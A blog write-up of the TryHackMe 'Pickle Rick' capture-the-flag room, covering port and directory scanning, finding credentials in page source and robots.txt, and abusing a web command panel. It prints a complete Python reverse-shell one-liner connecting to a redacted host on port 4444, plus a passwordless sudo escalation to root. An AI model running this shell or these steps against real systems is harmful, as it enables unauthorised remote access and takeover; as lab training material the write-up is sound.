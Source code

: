 ```yaml
---
layout: post
current: post
cover: 'assets/images/picklerick/cover.png'
navigation: True
title: "Pickle Rick Write Up"
date: 2021-01-06 00:00:00
tags: [tryhackme, ctf, easy]
class: post-template
subclass: 'post'
author: darryn
---
```

![picklerick](/assets/images/picklerick/cover.png)

### Overview

[Pickle Rick](https://tryhackme.com/room/picklerick) is a easy room on [TryHackMe](https://tryhackme.com). I enjoyed this room a lot, it was simple and requires good enumeration. The goal of this room is to:

> This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

### Nmap

I deployed the machine and was given the target IP 10.10.116.216. I started a NMAP scan to check the available ports. 

```highlight
└──╼ $sudo nmap -sC -sV -oN initial 10.10.116.216
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-06 21:57 GMT
Nmap scan report for 10.10.116.216
Host is up (0.026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:4f:2b:62:18:c3:dd:2e:a2:2c:b5:12:24:12:d0:79 (RSA)
|   256 de:3b:e3:78:a0:61:ac:71:ee:75:a2:c7:ae:1b:26:40 (ECDSA)
|_  256 e4:b9:4e:ae:81:bf:32:9d:a6:22:c1:35:d4:92:bb:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.89 seconds
```

2 Ports open:

- 22 - SSH - Banner is showing its an Ubuntu machine
- 80 - HTTP - Apache web server version 2.4.18

I also ran a full port scan but no additional ports were found.

### Enumeration

I started off by looking at the web server, going to http://10.10.116.216 presents the following page:

![webpage](/assets/images/picklerick/webpage.png)

Nothing of great interest so I looked at the source.

```highlight
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
  <style>
  .jumbotron {
    background-image: url("assets/rickandmorty.jpeg");
    background-size: cover;
    height: 340px;
  }
  </style>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1c<REDACTED>

  -->

</body>
</html>
```

I will take a note of the username as will probably be required later on, nothing else seems to jump out at the moment on an initial glance. Although 'Burp' got me thinking maybe I need to send the request via burp suite and play with the request but if I get stuck I will come back to that. I did some basic web enumeration first by trying common things such as checking robots.txt.

Robots.txt had a single word:

> Wubbalu   << I have redacted part the output

I could see from the source code a assets folder to I had a look at http://10.10.116.216/assets

![assets](/assets/images/picklerick/assets.png)

Nothing else jumped out so I ran a gobuster. 

```highlight
└──╼ $gobuster dir -u http://10.10.116.216 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.116.216
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/06 21:58:27 Starting gobuster
===============================================================
/assets (Status: 301)
/server-status (Status: 403)
===============================================================
2021/01/06 22:00:07 Finished
===============================================================
```

Nothing was found that I didn't already know, so I ran a second gobuster however this time I included some common extensions.

```highlight
└──╼ $gobuster dir -u http://10.10.116.216 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x html,php,log,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.116.216
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,log,txt
[+] Timeout:        10s
===============================================================
2021/01/06 22:00:46 Starting gobuster
===============================================================
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/index.html (Status: 200)
/robots.txt (Status: 200)
/denied.php (Status: 302)
/server-status (Status: 403)
/clue.txt (Status: 200)
===============================================================
2021/01/06 22:16:54 Finished
===============================================================
```

login.php and clue.txt look interesting, going to http://10.10.116.216/clue.txt provides:

> Look around the file system for the other ingredient.

Not really much of a clue so I looked at login.php

![login](/assets/images/picklerick/login.png)

After trying some common default credentials I was able to log in with the username found in the source code and the word found in robots.txt.

![command](/assets/images/picklerick/command.png)

All the links expect 'Commands' directs to http://10.10.116.216/denied.php so I tried some basic command such as ls, id, pwd, whoami and they all work.

![ls](/assets/images/picklerick/ls.png)

However when I try and cat Sup3rS3cretPickl3Ingred.txt I get an error.

![commanddisabled](/assets/images/picklerick/commanddisabled.png)

Fortunately I can just web browse directly to the file http://10.10.116.216/Sup3rS3cretPickl3Ingred.txt, 1 down 2 to go.

### Initial Access

I want to get a shell on the box, so I checked for python or python3. 

![python3](/assets/images/picklerick/python3.png)

Great I can use python3 to get a reverse shell assuming the commands not blocked. Using the following command I get a shell!

/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<REDACTED>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [<REDACTED>] from (UNKNOWN) [10.10.116.216] 37984
/bin/sh: 0: can't access tty; job control turned off
$ 
```

### Priv Esc

Although I need to search for the other 2 ingredients. I wanted to escalate my privilages, I checked 'sudo -l' and I can run any sudo command with out a password so I do a simple 'sudo su' to become root.

```highlight
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-116-216.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-116-216.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
$ sudo su
id
uid=0(root) gid=0(root) groups=0(root)
```

Now its just a case of finding the ingredient files which can be found in /home/rick and /root. 

Thats the box, thanks for reading!
